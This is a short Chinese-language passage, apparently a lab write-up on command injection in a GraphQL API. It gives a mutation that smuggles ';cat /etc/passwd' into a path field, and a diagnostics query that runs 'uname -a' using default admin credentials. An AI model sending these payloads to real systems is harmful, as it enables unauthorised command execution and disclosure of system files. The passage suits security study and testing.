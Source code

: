 ## 命令执行 1

与 Owasp top10 中的 RCE 一样 我们可以通过`;`、`||`、`&&` 等方式进行命令拼接执行

```plain
mutation ImportPaste {
    importPaste(
        host: "pastebin.com"
        path: ";cat /etc/passwd"
    scheme: "https"
        port: 443
    ){
        result
    }
}
```

[![](assets/1708919658-f9682e1d8b7b4a7e2547c84c16003c78.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240218222412737.png)

## 命令执行 2

```plain
query SystemDiagnostics {
    SystemDiagnostics(username: "admin",
        password: "changeme",cmd:"uname -a")
}
```
